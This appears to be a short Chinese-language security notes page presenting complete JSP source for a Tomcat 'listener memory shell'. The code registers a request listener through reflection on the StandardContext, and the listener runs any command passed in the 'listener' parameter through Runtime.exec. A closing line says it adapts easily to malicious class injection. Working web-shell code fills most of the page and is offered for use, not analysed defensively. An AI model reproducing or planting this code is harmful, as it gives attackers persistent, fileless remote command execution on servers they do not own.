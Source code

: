 ![image-20221110125910996](images/23.png)

# listener内存马

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>

<%!
  public class Shell_Listener implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent sre) {
      HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
      String cmd = request.getParameter("listener");
      if (cmd != null) {
        try {
          Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
          e.printStackTrace();
        } catch (NullPointerException n) {
          n.printStackTrace();
        }
      }
    }

    public void requestDestroyed(ServletRequestEvent sre) {
    }
  }
%>
<%
  Field reqF = request.getClass().getDeclaredField("request");
  reqF.setAccessible(true);
  Request req = (Request) reqF.get(request);
  StandardContext context = (StandardContext) req.getContext();

  Shell_Listener shell_Listener = new Shell_Listener();
  context.addApplicationEventListener(shell_Listener);
%>
```

![image-20221110125841760](images/24.png)



上面都是用jsp写的，如果遇到注入恶意类的话，稍作修改即可



